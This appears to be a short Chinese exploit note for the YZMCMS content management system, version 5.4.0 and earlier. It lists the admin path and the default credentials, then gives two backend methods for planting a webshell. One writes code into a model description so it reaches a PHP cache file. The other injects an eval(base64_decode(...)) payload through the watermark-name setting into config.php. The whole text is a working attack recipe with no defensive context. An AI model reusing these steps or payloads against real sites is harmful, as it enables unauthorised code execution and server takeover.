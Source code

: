 

# YZMCMS



---

影响版本：5.4.0及以下

后台地址：/news/admin

默认账密：yzmcms/yzmcms

后台get5he11-1：

```
前提：
common/config/config.php
file_config/mode=1 为序列化缓存格式
---
/内容管理/模型管理/编辑模型/模型介绍 写入web5he11
然后访问前台让其生成新的缓存文件
http://域名/cache/chche_file/modelinfo.cache.php
```

后台get5he11-2：

```
/系统管理/系统设置/附加设置/水印图片名称写入：（$1会转义成单引号）
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1
访问http://域名/common/config/config.php
```

